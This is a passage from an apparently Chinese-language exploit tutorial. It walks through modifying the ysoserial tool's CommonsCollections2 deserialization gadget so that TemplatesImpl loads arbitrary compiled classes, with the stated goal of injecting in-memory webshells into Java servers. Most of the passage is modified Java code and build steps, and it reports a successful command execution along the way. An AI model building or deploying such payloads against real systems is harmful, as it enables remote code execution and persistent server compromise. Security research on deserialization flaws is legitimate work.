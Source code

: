 测试一下环境是否正常

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220216084001.png)

会报错，但是我们可以发现是`TemplatesImpl`抛出的，并且检查命令执行效果可以发现命令执行成功了，接下来开始改造Payload

### 构造Exploit

首先是用IDEA导入ysoserial项目，项目的Jdk版本设置为1.8。

由于打包起来太麻烦，我们将`ysoserial.GeneratePayload`作为主类运行，直接生成Payload

由于我们要输出到文件中，修改`GeneraterPayload.java`的第35行`PrintStream out =
System.out;`改为`PrintStream out = new PrintStream("./output.serial");`

首先在`ysoserial.payloads.util.Gadgets.java`中调整`createTemplateImpl`函数

由于原版的`createTemplateImpl`根据要执行的指令来生成`TemplateImpl`我们将其重载并稍微修改一下

我们复制`createTemplateImpl`并改为如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    public static Object createTemplatesImpl ( final Class _class ) throws Exception {    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {        return createTemplatesImpl(            _class,            Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),            Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));    }  
        return createTemplatesImpl(_class, TemplatesImpl.class, TransformerFactoryImpl.class);}  
      
    public static <T> T createTemplatesImpl ( final Class _class, Class<T> tplClass, Class<?> transFactory )    throws Exception {    final T templates = tplClass.newInstance();  
        final byte[] classBytes = ClassFiles.classAsBytes(_class);  
        // inject class bytes into instance    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {        classBytes, ClassFiles.classAsBytes(Foo.class)    });  
        // required to make TemplatesImpl happy    Reflections.setFieldValue(templates, "_name", "Pwnr");    Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());    return templates;}

对于第一处重载，只是把`command`改为了`_class`并删除了无用的参数，第二处重载则从通过Javaassist技术制作类并获取字节码变为直接获取字节码，因为我们直接编写了类文件

然后将`payloads/CommonsCollections2`复制出一个新版本，命名为`CommonsCollections2ForClassInjection`

将`command`参数重构为`payloadName`，变为注入的类名来使用，之后可以方便调整为使用`ServletInjection`等其它内存马

把这一句进行修改

  * 

    
    
    final Object templates = Gadgets.createTemplatesImpl(command);

换为如下，直接通过类名获取字节码

  * 

    
    
    final Object templates = Gadgets.createTemplatesImpl(Class.forName("ysoserial.shells."+payloadName));

